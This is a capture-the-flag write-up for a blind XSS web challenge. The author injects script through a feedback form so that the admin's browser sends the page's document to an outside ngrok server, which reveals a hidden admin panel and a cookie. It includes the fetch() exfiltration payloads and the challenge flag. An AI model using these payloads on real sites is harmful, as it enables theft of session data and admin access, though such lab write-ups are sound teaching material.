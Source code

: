 # BXSS

Blind XSS leaks hidden admin panel and with secret cookie we could read flag. 

## Enumeration

The page allowed us to send feedback to the admin. Name hinted that this challenge propably involved blind xss. However I first tried to send some basic xss payloads but nothing happened. 

Then I sent following payload to my ngrok server and it pinged!
```javascript
<script>fetch("http://x.ngrok.io")</script>
```

Next I needed to figure out what to do with this xss. 
I crafted a payload and used it for printing cookies and other stuff, but nothing interesting showed up. Then I sent the whole document to my server. 
```javascript
<script>fetch("http://x.ngrok.io", {method: "POST", body: JSON.stringify(document)})</script>
```

The response had this data
```json
{
  "location": {
    "ancestorOrigins": {},
    "href": "http://0.0.0.0:8080/Secret_admin_cookie_panel",
    "origin": "http://0.0.0.0:8080",
    "protocol": "http:",
    "host": "0.0.0.0:8080",
    "hostname": "0.0.0.0",
    "port": "8080",
    "pathname": "/Secret_admin_cookie_panel",
    "search": "",
    "hash": ""
  }
}
```

One of my teammates found out you could go to the [/Secret_admin_cookie_panel](http://web.zh3r0.cf:3333/Secret_admin_cookie_panel) using a browser

## Finding the flag

The site showed xss payloads that other people did. (Not sure if intended or not)
We found out that site had this weird cookie called: `zyperxsecret_cookiehahah`

From the admin panel, we saw someone trying [/flag](http://web.zh3r0.cf:3333/flag), so we went to that page and there the flag was. 

Later we realized that you couldn't access the `/flag` page without that special cookie and you needed xss to find out that panel and get the cookie. 
### Flag
`zh3r0{{Ea5y\_bx55\_ri8}}`